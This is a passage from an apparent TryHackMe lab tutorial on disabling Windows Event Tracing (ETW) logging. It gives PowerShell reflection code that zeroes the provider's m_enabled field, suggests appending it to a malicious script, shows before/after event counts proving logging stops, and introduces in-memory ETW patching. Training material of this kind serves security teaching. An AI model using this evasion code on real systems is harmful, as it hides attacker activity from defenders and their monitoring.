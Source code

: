 ```powershell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

At step three, we compile our steps together to overwrite the `m_enabled` field with the value stored in the previous line.

```powershell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and  experiment with this technique.

To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command.

**Before**        

```powershell
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
7
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
11
        
```

**After**        

```powershell
PS C:\Users\Administrator>.\reflection.ps1
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
        
```

In the first terminal, we see four events generated when the whoami command is run. After the script is executed in the second terminal, we see no events generated from running a command. From this comparison, we can also see that the PowerShell script creates  seven events; this should be considered when evaluating an approach. 

# Patching Tracing Functions                            

ETW is loaded from the runtime of every new process, commonly originating from the **CLR** (**C**ommon **L**anguage **R**untime). Within a new process, ETW events are sent from the userland and issued  directly from the current process. An attacker can write pre-defined  opcodes to an in-memory function of ETW to patch and disable  functionality. Before diving into the specific details of this  technique, let’s observe what patching may look like at a high level. At its most basic definition, we are trying to force an application to  quit or return before reaching the function we want to patch.
